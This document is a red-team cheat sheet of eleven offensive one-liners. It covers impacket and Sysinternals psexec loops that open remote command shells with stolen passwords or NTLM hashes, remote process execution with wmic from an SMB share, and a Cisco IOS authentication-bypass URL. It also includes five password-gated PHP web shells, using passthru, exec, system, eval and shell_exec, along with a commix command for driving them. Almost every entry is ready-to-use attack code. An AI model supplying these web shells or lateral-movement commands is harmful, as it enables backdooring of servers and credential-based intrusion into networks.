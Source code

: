 ### 1. loop around and open cmd, Psexecy.py != psexec msf != sysinternals psexec
```
for host in $(cat hosts.txt); do psexec.py [DOM]/[USER]:'[PASS]'@$host "cmd.exe"; done
```
**- linux,loop,impacket,remote command shell**
#### References:

https://yg.ht
https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 2. PSExec with hashses
```
psexec.py -hashes [LM]:[NTLM] [DOM]/[USER]@[TARGET] "cmd.exe"
```
**- linux,impacket,remote command shell,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 3. windows psexec : \\127.0.0.1\c$\cmd.exe -p can be pass OR hash
```
psexec /accepteula \\[victim] -u [domain]\[user] -p [password] -c -f \\[victim]\[share\[file]
```
**- pivoting,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx
__________
### 4. execute command on remote host from remote smb share
```
wmic /node:[victim] /user:[domain]\[user] /password:[password] process call create "\\[host]\[share]\[exe]"
```
**- smb,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 5. Bypass auth on ios 11.2-12.2
```
http://[ip]/level/56/exec/show/config
```
**- cisco,interesting,web application,remote command shell**
#### References:

https://www.amazon.co.uk/Rtfm-Red-Team-Field-Manual/dp/1494295504
__________
### 6. Php Simple shell, set aPasswordto access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){passthru($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.passthru.php
__________
### 7. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.exec.php
__________
### 8. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){system($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.system.php
__________
### 9. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){eval($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.eval.php
__________
### 10. Php Simple shell, set Password to access, bis your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){shell_exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.shell-exec.php
__________
### 11. Commix abuse exec as per the php shells, nicer than burp repeater! 
```
/opt/commix/commix.py -u "https://[rip]:443/[resource]?[password]&cmd=1*" --force-ssl
```
**- web application,remote command shell**
#### References:

https://github.com/commixproject/commix
__________
